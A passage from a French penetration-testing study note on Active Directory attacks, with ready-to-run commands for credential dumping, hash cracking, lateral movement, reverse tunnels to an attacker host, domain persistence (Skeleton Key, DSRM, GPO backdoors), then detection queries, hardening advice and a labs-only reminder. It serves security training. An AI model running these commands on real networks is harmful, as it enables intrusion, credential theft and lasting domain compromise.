mimikatz> sekurlsa::krbtgt
mimikatz> lsadump::lsa /inject /name:krbtgt

# Reversible encryption (comptes avec userAccountControl bit 128) :
Get-ADUser -Filter 'userAccountControl -band 128' -Properties userAccountControl
# → secretsdump affichera le mot de passe en CLAIR pour ces comptes.
```

### 23.3 Le tableau des hashes AD (à connaître)

| Type | Hashcat | Format | Commentaire |
|---|---|---|---|
| **LM** | 3000 | `<LM_HASH>` | Obsolète, crackable instantanément |
| **NT (NTLM)** | 1000 | `<NT_HASH>` | Le hash principal (dump NTDS) |
| **NetNTLMv1** | 5500 | `user::dom:lmresp:ntresp:chall` | Downgrade → shuck/crack.sh |
| **NetNTLMv2** | 5600 | `user::dom:chall:proof:blob` | Capturé par Responder |
| **DCC2 (MSCache)** | 2100 | `$DCC2$iter#user#hash` | Cache de creds local |
| **Kerberoast (RC4)** | 13100 | `$krb5tgs$23$...` | TGS d'un service |
| **Kerberoast (AES)** | 19700 | `$krb5tgs$18$...` | Si le TGS est chiffré AES |
| **AS-REP roast** | 18200 | `$krb5asrep$23$...` | TGT sans pre-auth |

```bash
hashcat -m 1000 hashes.txt rockyou.txt -O -w 4
# stats : quels mots de passe faibles ? → fait un rapport, ne les crie pas partout 😉
```

> 📘 Voir aussi : [[Outils/Outil - hashcat|hashcat]] · [[Outils/Outil - John the Ripper|John the Ripper]] · [[08 - Password Cracking|🔐 Password Cracking]]

---

## 24. Lateral Movement AD

Une fois une paire de creds (mdp ou hash), on **bouge latéralement** via plusieurs protocoles. Chacun a son niveau de bruit.

### 24.1 Les méthodes

| Méthode | Protocole/Port | Impacket | Bruit | Notes |
|---|---|---|---|---|
| **PsExec** | SMB (445) + service | `psexec.py` | Moyen | Crée un service |
| **SMBExec** | SMB + named pipe | `smbexec.py` | Faible | Pas de service |
| **WMIExec** | WMI (135) | `wmiexec.py` | Faible | Événements WMI |
| **AtExec** | Task Scheduler | `atexec.py` | Moyen | Tâche planifiée |
| **WinRM** | 5985/5986 | `evil-winrm` | Moyen | Shell interactif |
| **DCOM** | RPC (135) | `dcomexec.py` | Faible | Shell via DCOM |
| **MSSQL** | 1433 | `mssqlclient.py` | — | xp_cmdshell |
| **RDP** | 3389 | `xfreerdp` | Bruyant | Session graphique |

```bash
# PsExec - execution de service
psexec.py corp.local/admin:'pass'@192.168.1.20

# WMI
wmiexec.py corp.local/admin:'pass'@192.168.1.20

# WinRM (5985/5986)
evil-winrm -i 192.168.1.20 -u admin -p 'pass'
evil-winrm -i 192.168.1.20 -u admin -H <hash>

# DCOM / AtExec
atexec.py corp.local/admin:'pass'@192.168.1.20 "whoami"

# SQL Server (xp_cmdshell) - si on trouve des creds SA
mssqlclient.py -windows-auth corp.local/sa:'pass'@192.168.1.30
SQL> xp_cmdshell whoami

# Détection des machines réutilisant le même admin local (Password Spray)
nxc smb 192.168.1.0/24 -u admin -H <hash> --shares
```

> [!warning] 🚩 **Password Spraying (pas de brute-force !)**
> Brute-forcer 1 mot de passe contre TOUS les comptes = moins de lockouts :
> 📘 Fiche détaillée : [[Techniques/Password Spraying|🌧️ Password Spraying]]
> ```bash
> nxc smb 192.168.1.0/24 -u users.txt -p 'Fall2024!' --continue-on-success
> ```

### 24.2 Variantes WinRM

```bash
# evil-winrm avec un fichier de payloads
evil-winrm -i 192.168.1.20 -u admin -H <hash> -s ./scripts
# Upload/download de fichiers
evil-winrm> upload payload.exe
evil-winrm> download C:\Windows\System32\config\sam sam.hive
```

### 24.3 DCOM exec

```bash
dcomexec.py -silentcommand 'whoami' corp.local/admin:'pass'@192.168.1.20
```

### 24.4 Alternatives

- **SSH (OpenSSH)** si déployé : `ssh corp\user@host`.
- **RDP avec hash** : `xfreerdp /v:host /u:admin /pth:<hash>` (si Restricted Admin activé).
- **Netsh portproxy / tunnels** pour accéder aux services internes (voir section 25).

---

## 25. Pivoting dans un domaine

### 25.1 Principe

Une fois un **foothold** sur une machine du domaine (souvent un serveur membre ou une workstation), on doit **pivoter** vers les réseaux internes : autres subnets, autres domaines, ressources non exposées. Le pivot peut être un tunnel **SOCKS** ou un **reverse port forward**.



### 25.2 Les techniques de pivot

| Technique | Outil | Usage |
|---|---|---|
| **SOCKS proxy** | `ssh -D` / `chisel` | Tunnel SOCKS via la machine compromise |
| **Chisel** | `chisel client/server` | Tunneling TCP/SOCKS léger (1 binaire) |
| **Ligolo-ng** | `ligolo-ng agent/proxy` | Tunnel réseau + route (recommandé) |
| **SSH reverse** | `ssh -R` | Forward de port inversé |
| **netsh portproxy** | `netsh interface portproxy` | Redirection de port native Windows |

> 📘 Fiche détaillée : [[Outils/Outil - Ligolo-ng|Ligolo-ng]] · [[Techniques/Pivoting et Tunneling|Pivoting & Tunneling]]

### 25.3 Chisel

```bash
# Côté attaquant (serveur)
./chisel server --port 8080 --reverse
# Côté victime (client)
./chisel client <ATTACKER_IP>:8080 R:1080:socks
# Utilisation via proxychains
proxychains nmap -sT -Pn 192.168.2.0/24
proxychains evil-winrm -i 192.168.2.50 -u admin -p 'pass'
```

### 25.4 Ligolo-ng

```bash
# Attaquant : créer l'interface TUN
sudo ip tuntap add user $(whoami) mode tun ligolo
sudo ip link set ligolo up
ligolo-ng proxy -selfcert -laddr 0.0.0.0:11601

# Victime (agent)
ligolo-ng agent -connect <ATTACKER_IP>:11601 -ignore-cert

# Dans l'interface proxy : `session` puis `start`
# Ajouter les routes côté attaquant
sudo ip route add 192.168.2.0/24 dev ligolo
# Cibler les ressources internes normalement
nxc smb 192.168.2.10 -u user -p pass --shares
```

### 25.5 Pièges du pivot

- **Kerberos + proxy** : les SPN sont des FQDN → utiliser `-no-pass -k` avec le bon `KRB5CCNAME` et le bon DC via `-dc-ip`.
- **SMB dans proxychains** : souvent instable → préférer `smbexec.py`/`wmiexec.py` via tunnel ou le relay.
- Toujours vérifier les **routes** (le tunnel n'implique pas l'accès à tous les réseaux).
- Penser aux **dynamic ports** : `ssh -D 1080` reste le plus universel.

---

## 26. Persistance AD

### 26.1 Principe

La persistance = garder un accès **après la fin de l'engagement**, ou survivre aux rotations de mots de passe. En AD, certaines techniques survivent **au niveau du domaine** et sont très difficiles à détecter.

| Technique | Principe | Détection |
|---|---|---|
| **Golden Ticket** | Reforge des TGT krbtgt | Changement krbtgt x2 |
| **Silver Ticket** | Forge de TGS service | — |
| **Skeleton Key** | Patch du LSASS pour un "pass master" | Compare l'image du LSASS |
| **AdminSDHolder** | Ré-applique des droits toutes les 60 min sur les groupes privilégiés | Monitor ACL |
| **DSRM** | Réinitialiser le mdp DSRM du DC (booter en mode restaur) | — |
| **Hôtes de service** | Modifier un service existant | — |
| **Certificats** | Demander un cert valide longtemps | Monitor les req |
| **SID History** | Ajouter un SID de groupe privilégié | Audit changements SID |
| **Shadow Credentials** | Clé dans msDS-KeyCredentialLink | Audit de l'attribut |
| **Backdoor GPO** | GPO qui maintient un admin local | Audit GPO |

### 26.2 Les commandes clés

```powershell
# AdminSDHolder (mimikatz/powershell)
# Ajouter un utilisateur au groupe AdminSDHolder → il devient DA (répliqué)
Add-ADGroupMember -Identity "AdminSDHolder" -Members attacker

# Skeleton key (mimikatz, à exécuter sur le DC en SYSTEM)
privilege::debug
misc::skeleton
# → tout compte se connecte avec son mdp OU le "mimikatz" comme pass master
```

### 26.3 DSRM (Directory Services Restore Mode)

```powershell
# Sur le DC : autoriser le logon DSRM en réseau
New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name "DsrmAdminLogonBehavior" -Value 2
# Dump du hash DSRM (mimikatz, SYSTEM)
lsadump::sam /system:system.hive /sam:sam.hive
# Puis PtH vers le DC avec le hash DSRM (persiste même si krbtgt change)
```

### 26.4 Persistance par certificat

```bash
# Demander un cert "administrator" à durée de vie longue
certipy req -u 'corp\user' -p 'pass' -ca CORP-CA -template User -upn administrator@corp.local
certipy auth -pfx admin.pfx -dc-ip DC
# → valable tant que le certificat est dans sa période de validité
```

### 26.5 Backdoor GPO

```powershell
# Maintenir un membre du groupe "Local Administrators" sur toutes les machines de l'OU
SharpGPOAbuse.exe --AddLocalAdmin --UserAccount attacker --GPOName "Default Domain Policy"
```

---

## 27. MITRE ATT&CK — mapping AD

Le **MITRE ATT&CK** fournit un langage commun pour décrire les attaques. En AD, la quasi-totalité des techniques s'y rattache. Voici le mapping essentiel.

| Technique ATT&CK | ID | Couverture AD | Détection clé |
|---|---|---|---|
| **Valid Accounts** | T1078 | PtH, PtT, mdp en clair | 4624/4625, logons inhabituels |
| **Account Manipulation** | T1098 | Ajout de membres, modif attrs | 4728/4738 |
| **Access Token Manipulation** | T1134 | S4U, SID History | — |
| **Rogue Domain Controller** | T1207 | Backdoor DC, DCSync | 4662 replication |
| **Domain Trust Discovery** | T1482 | findTrust, ldapdomaindump | Logs LDAP |
| **Use Alternate Auth Material** | T1550 | PtH (T1550.002), PtT (T1550.003) | 4624 type 3 |
| **Modify Authentication Process** | T1556 | Skeleton Key, Password Filter | LSASS diff |
| **Network Sniffing** | T1557 | LLMNR/NBT-NS poisoning | Trafic multicast |
| **Steal/Forged Kerberos Tickets** | T1558 | Kerberoast (T1558.003), AS-REP (T1558.004), Silver (T1558.002), Golden (T1558.001) | 4769/4768 |
| **Remote Services** | T1021 | WinRM (T1021.006), SMB (T1021.002), SSH (T1021.001), RDP (T1021.001) | 4624, 4688 |
| **DCSync** | T1003.006 | secretsdump / mimikatz | 4662 replication |
| **Group Policy Modification** | T1484.001 | GPO abuse | 5136/5137 |
| **Scheduled Task** | T1053.005 | Persistance par tâche | 4698 |
| **Boot/Logon Autostart** | T1547 | Service persistants | 4697 |

### Les 3 à connaître par cœur

1. **T1558.003 Kerberoasting** → event **4769** avec etype `0x17` (RC4) / `0x12` (AES) en rafale.
2. **T1558.004 AS-REP Roasting** → event **4768** sans pre-auth réussie.
3. **T1003.006 DCSync** → event **4662** avec GUID de réplication.

---

## 28. Détection & Défense AD

### 28.1 Les Event IDs clés

| Event ID | Événement | Signification défensive |
|---|---|---|
| **4624** | Logon réussi | Type 3 (réseau) = lateral movement |
| **4625** | Logon échoué | Brute-force / spray |
| **4672** | Privilèges spéciaux | Escalade locale |
| **4688** | Processus créé | Exécution de payloads |
| **4740** | Compte verrouillé | Brute-force / spray |
| **4728** | Membre ajouté à un groupe privilégié | ACL abuse |
| **4738** | Attributs d'un compte modifiés | Backdoor de compte |
| **4768** | TGT demandé | AS-REP (pre-auth absente) |
| **4769** | TGS demandé | Kerberoast (0x17/0x12) |
| **4771** | Échec pre-auth Kerberos | Brute-force Kerberos |
| **5136** | Modif d'un objet AD | GPO / ACL abuse |
| **5137** | Création d'objet AD | Shadow creds, backdoor |
| **4662** | Opération sur un objet (réplication) | DCSync |

### 28.2 Détection des attaques (exemples de requêtes)

**Kerberoasting** (Sentinel / KQL) :
```kusto
SecurityEvent
| where EventID == 4769
| where TicketEncryptionType in (0x17, 0x12)
| where Account !endswith "$"
```

**AS-REP Roasting** :
```kusto
SecurityEvent
| where EventID == 4768 and PreAuthType == 0
```

**DCSync** :
```kusto
SecurityEvent
| where EventID == 4662
| where ObjectRight contains "DS-Replication-Get-Changes"
```

**Skeleton Key** :
- Comparer l'image du LSASS à une référence "propre" (EDR).
- Rechercher les appels non standards au LSASS.

### 28.3 Durcissement (hardening)

| Contre-mesure | Réduit |
|---|---|
| Désactiver **LLMNR/NBT-NS** par GPO | LLMNR/NBT-NS poisoning |
| **SMB Signing** obligatoire | NTLM relay |
| Activer **Credential Guard** | Mimikatz sekurlsa |
| **LAPS** partout | Mdp admin local partagé |
| Désactiver l'usage de **RC4** | Kerberoast RC4 |
| **Protected Users** + tiering | Golden/Silver, creds en mémoire |
| **Honey tokens** (canary accounts) | Détection précoce |
| **PAM** (Privileged Access Management) | Over-privileging |
| Audit avancé + SIEM (4610, 4662...) | Détection DCSync/GPO abuse |

### 28.4 Honeypots / honey tokens

```powershell
# Créer un compte "canary" privilégié apparent, jamais utilisé → alarme dès logon
New-ADUser -Name "svc_backup_canary" -SamAccountName "svc_backup_canary" `
  -AccountPassword (ConvertTo-SecureString "NeJamaisUtiliser123!" -AsPlainText -Force) -Enabled $false
# → toute tentative d'utilisation = alerte (4625 sur ce compte)
```

---

## 29. Outils AD — références

> 🧰 Bibliothèque complète : [[Tools|🧰 Bibliothèque d'Outils]]

| Outil | Rôle | Fiche |
|---|---|---|
| **Impacket** | Suite Python : psexec, secretsdump, GetUserSPNs, wmiexec, ntlmrelayx | [[Outils/Outil - Impacket]] |
| **BloodHound** | Cartographie des chemins d'attaque (Cypher) | [[Outils/Outil - BloodHound]] |
| **Mimikatz** | Creds & tickets Windows | [[Outils/Outil - Mimikatz]] |
| **Responder** | LLMNR/NBT-NS poisoning | [[Outils/Outil - Responder]] |
| **Rubeus** | Tickets Kerberos (Windows) | [[Outils/Outil - Rubeus]] |
| **CrackMapExec / NetExec** | Lateral movement multi-protocoles | [[Outils/Outil - CrackMapExec]] |
| **Evil-WinRM** | Shell WinRM | [[Outils/Outil - Evil-WinRM]] |
| **Kerbrute** | Énumération Kerberos | [[Outils/Outil - Kerbrute]] |
| **John / hashcat** | Cracking offline | [[Outils/Outil - John the Ripper]], [[Outils/Outil - hashcat]] |
| **Nmap** | Scan réseau | [[Outils/Outil - Nmap]] |
| **Netcat** | Ports / shells | [[Outils/Outil - Netcat]] |
| **Wireshark** | Analyse réseau | [[Outils/Outil - Wireshark]] |
| **Ligolo-ng** | Tunnel / pivot | [[Outils/Outil - Ligolo-ng]] |
| **Metasploit** | Framework d'exploitation | [[Outils/Outil - Metasploit]] |
| **Sliver** | C2 | [[Outils/Outil - Sliver]] |
| **Empire** | C2 PowerShell | [[Outils/Outil - PowerShell Empire]] |
| **Certipy** | ADCS (certificats) | — |
| **bloodyAD** | Manipulation d'objets AD (ACL, rbcd, shadow) | — |
| **ldapsearch / ldapdomaindump** | Énumération LDAP | — |
| **adidnsdump** | Dump zone DNS AD | — |
| **PingCastle** | Audit de sécurité AD (score) | — |
| **Purple Knight** | Détection de chemins de compromission | — |

### Workflows Impacket (les plus utilisés)

```bash
# Énumération complète
GetADUsers.py -all -dc-ip DC 'corp.local/user:pass'
GetNPUsers.py -dc-ip DC 'corp.local/' -usersfile users.txt

# Tickets / SPN
GetUserSPNs.py -request -dc-ip DC 'corp.local/user:pass'

# DCSync / dump
secretsdump.py -just-dc 'corp.local/user:pass'@DC

# Lateral
psexec.py -hashes :<hash> 'corp.local/admin'@TARGET
wmiexec.py -hashes :<hash> 'corp.local/admin'@TARGET

# NTLM relay
ntlmrelayx.py -t ldap://DC2 --shadow-credentials --shadow-target 'dc02$'
```

---

## 30. 🧠 Tips & Pièges AD

> [!tip] 🩸 **BloodHound : les requêtes custom à garder**
> ```cypher
> // Kerberoastables
> MATCH (n:User) WHERE n.hasspn=true RETURN n
> // AS-REP roastables
> MATCH (n:User) WHERE n.dontreqpreauth=true RETURN n
> // Chemins vers Domain Admins
> MATCH p=shortestPath((n)-[*1..]->(g:Group)) WHERE g.name CONTAINS 'DOMAIN ADMINS' RETURN p
> // Utilisateurs admincount (privilégiés)
> MATCH (n:User) WHERE n.admincount=true RETURN n
> // Machines sans protection (no LAPS, no local admin)
> MATCH (m:Computer) WHERE NOT m.HasLAPS AND m.UnconstrainedDelegation=false RETURN m
> ```
> (Il existe aussi le nouveau **BloodHound Community Edition (BHE)**)

> [!tip] 🔑 **Ne pas tout cracker : RÉUTILISER**
> Un hash récupéré sur une machine = à tester sur **toutes** les autres.
> ```bash
> # Tester le hash partout (spray ciblé, discret)
> nxc smb 192.168.1.0/24 -u admin -H <hash> --shares
> # Tester un mdp en clair partout
> nxc winrm 192.168.1.0/24 -u user -p 'Fall2024!' --continue-on-success
> ```
> La réutilisation de mots de passe est le **chemin le plus rapide** vers le domaine.

> [!tip] 🌐 **Toujours regarder les TRUSTS**
> `Domain B` fait confiance à `Domain A` → compromettre A peut donner accès à B
> (cross-trust Kerberoast, SID History, forest trusts).
> ```bash
> # Enumerer les trusts
> ldapdomaindump | grep -i trust
> # ou impacket
> findTrust.py -dc-ip DC 'corp.local/user:pass'
> ```

> [!tip] 🗝️ **Kerberoast : penser au mode AES**
> ```bash
> # Demander un ticket chiffré AES256 (parfois mieux que RC4 selon les policies)
> GetUserSPNs.py -request -dc-ip DC 'corp.local/user:pass' -aes
> hashcat -m 19700 kerberoast_aes.txt wordlist.txt   # mode AES-Kerberoast
> ```

> [!tip] 🎭 **Shadow Credentials (si on peut écrire `msDS-KeyCredentialLink`)**
> ```bash
> # Utiliser pywhisker pour ajouter des clés sur un compte cible
> pywhisker -d corp.local -u user -p pass --target victim --action add --filename cert.pfx
> # Puis demander un TGT pour la victime via PKINIT (Rubeus asktgt / certipy auth)
> certipy auth -pfx cert.pfx -dc-ip DC -username victim -domain corp.local
> ```

> [!warning] ⚠️ **Piège n°1 : bruter = lockout**
> Ne brute-force **jamais** un mot de passe AD (lockout après ~5 essais).
> Toujours **Password Spray** : 1 mot de passe contre beaucoup de comptes, espacé dans le temps.
> ```bash
> nxc smb DC -u users.txt -p 'MdpSpray2024!' --continue-on-success
> ```

> [!warning] ⚠️ **Piège n°2 : LLMNR poisoning + relay**
> - Responder **récupère** les hashes mais **mange** aussi les requêtes SMB → le relay échoue.
> - Mets `/etc/responder/Responder.conf` sur `SMB=Off` quand tu fais du **relay**.
> - **SMB Signing activé** = pas de relay (seulement crack). Vérifie : `nxc smb IP -u u -p p -M smb-risky` ou via scan.

> [!warning] ⚠️ **Piège n°3 : les comptes "machine"**
> Les comptes machines (`DOMAIN$`, ex `WEB01$`) ont des **passwords aléatoires** impossibles à cracker.
> Ne perds pas de temps à cracker un hash de compte machine : il est fait pour être **rejoué** (PtH), pas cassé.

> [!tip] ⚙️ **Les comptes machines sont des creds à part entière**
> Un compte machine (`DC01$`) qui possède des droits de réplication → **DCSync avec son hash**. Toujours cartographier ce que peuvent faire les comptes `$` (souvent sous-estimé).

> [!tip] 🎯 **BloodHound : custom queries avancées**
> ```cypher
> // Chemin vers DA via GPO
> MATCH p=(u)-[:GenericAll|WriteDacl|WriteOwner*1..]->(g:GPO)-[:GPLink*1..]->(c:Computer) RETURN p
> // Machines à délégation non restreinte + utilisateurs possédés
> MATCH (c:Computer {unconstraineddelegation:true}) RETURN c
> // Chemins depuis les groupes du compte
> MATCH p=shortestPath((n)-[*1..]->(g:Group)) WHERE g.name CONTAINS 'DOMAIN ADMINS' RETURN p
> ```

> [!tip] 🧪 **Test Kerberos "sans lockout"**
> Kerberos renvoie des erreurs différentes selon que le compte existe → énumération silencieuse.
> ```bash
> kerbrute userenum -d corp.local users.txt DC
> ```

> [!warning] ⚠️ **Piège n°4 : les mdp dans les descriptions AD**
> Les descriptions d'objets contiennent souvent des mots de passe (migration, docs). Cherche `pass`, `pwd`, `temp`, `Mdp` dans `description` et `info`.

> [!success] 🏆 **Le flow mental "j'ai un foothold AD"**
> 1. `whoami` + **BloodHound** (collection complete) dès que possible
> 2. Chercher les **chemins courts** vers DA
> 3. Kerberoast / AS-REP / ACL abuse selon ce que BloodHound montre
> 4. Vérifier **délégations** (souvent le chemin le plus rapide : coerce + unconstrained → DCSync)
> 5. Lire les **secrets AD** : LAPS, GMSA, shadow credentials si droits d'écriture
> 6. Mimikatz sur chaque machine compromise (hashes en clair)
> 7. Tester **chaque** cred/hash sur chaque machine (`nxc --continue-on-success`)
> 8. Arrivé sur un DC : `secretsdump -just-dc` = game over domaine.

---

## 31. Méthode express AD

### 31.1 Le workflow de A à Z

```text
1. RÉSEAU (foothold)
   └─ Scan : nmap -p 53,88,135,139,445,389,636,3268,3269,5985,5986
   └─ Énum sans creds : kerbrute userenum, RID brute, --get-sid

2. ÉNUMÉRATION AVEC CREDS
   └─ bloodhound-python -c All ; ldapdomaindump ; nxc --users/--groups
   └─ nxc ldap --bloodhound -c All --dns-server DC

3. CHERCHER LES CHEMINS
   └─ BloodHound : shortest path vers DA
   └─ Kerberoast (GetUserSPNs -request) → crack 13100 / 19700
   └─ AS-REP (GetNPUsers -usersfile) → crack 18200
   └─ ACL abuse (GenericAll/WriteDACL) → bloodyAD / nxc --password-reset

4. PRIVESC LOCALE
   └─ WinPEAS / Seatbelt ; exploit kernel ; binaires suspects
   └─ Récupérer les creds : mimikatz sekurlsa::logonpasswords

5. LATERAL MOVEMENT
   └─ nxc smb --users/-H --shares (test des hashes partout)
   └─ psexec / wmiexec / evil-winrm / atexec

6. VERS LE DOMAINE
   └─ Délégations : unconstrained + coerce → DCSync
   └─ ADCS : certipy find -vulnerable → ESC1/ESC8
   └─ LAPS/GMSA/shadow creds si droits d'écriture
   └─ Trusts : findTrust, cross-trust Kerberoast

7. GAME OVER
   └─ secretsdump -just-dc / mimikatz lsadump::dcsync /all
   └─ Golden ticket / Silver ticket / DSRM (persistance)
```

### 31.2 Le pipeline des priorités

```mermaid
flowchart TB
    A["Creds faibles / hash"] --> B["PtH / PtT sur machines"]
    B --> C["Machine sensible (admin local DC, délégation, ADCS)"]
    C --> D["DCSync (si possible)"]
    C --> E["Kerberoast / ACL / GPO"]
    E --> D
    D --> F["Golden Ticket → domaine complet"]
```

### 31.3 Checklist finale

- [ ] LAPS ou mdp local partagé ?
- [ ] ADCS (templates vulnérables, ESC8) ?
- [ ] Délégations (unconstrained / constrained / RBCD) ?
- [ ] Trusts vers d'autres domaines / forêts ?
- [ ] GPO modifiables ?
- [ ] Comptes AS-REP / SPN faibles ?
- [ ] SID History / comptes privilégiés oubliés ?
- [ ] Descriptions contenant des mots de passe ?

---

> [!success] 🏆 **La chaîne de pensée AD en une ligne**
> Énumérer (BloodHound) → trouver un chemin (Kerberoast/ASREP/ACL) → premier accès
> → privesc locale → dump creds (mimikatz) → lateral movement → DA → DCsync → **domaine**.

> [!warning] ⚖️ **Rappel** : THM ("Holo", "HackPark AD"), HTB Machines, lab privé. Jamais de prod sans contrat. 🔒

➡️ Suite logique : [[06 - Post-Exploitation|🕹️ Post-Exploitation]]
